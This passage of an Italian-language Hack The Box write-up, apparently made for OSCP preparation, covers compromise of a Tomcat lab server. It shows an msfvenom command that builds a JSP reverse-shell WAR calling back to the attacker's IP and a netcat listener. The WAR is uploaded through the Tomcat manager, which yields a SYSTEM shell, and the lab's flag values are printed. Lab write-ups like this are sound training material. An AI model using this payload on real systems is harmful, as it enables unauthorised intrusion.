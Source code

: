 e finalmente possiamo accedere 
![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/tomcat2.png)

L'interfaccia web di gestione ci offre un posto dove caricare i file WAR e un modo per eseguirli manualmente. 
I file WAR  è un archivio utilizzato in java, vediamo se può essere il nostro vettore d'attacco

# GAINING AN INITIAL FOOTHOLD 

Per prima cosa creiamoci il nostro payload
```shell-session
┌──(root㉿kali)-[/home/kali]
└─# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.48 LPORT=4321 -f war -o shell.war
Payload size: 1089 bytes
Final size of war file: 1089 bytes
Saved as: shell.war
```

ci mettiamo in ascolto con nc alla porta inserita nel paylaod

```shell-session
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 4321
listening on [any] 4321 ..
```

lo carichiamo sul server Apache
![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/tomcat3.png) 
e visitamo `http://10.10.10.95:8080/shell` ottenendo cosi la nostra shell

```shell-session
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 4321
listening on [any] 4321 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.10.95] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```

e al seguente percorso troviamo le nostre user e root flag

```cmd
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1".txt
type "2 for the price of 1".txt
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```
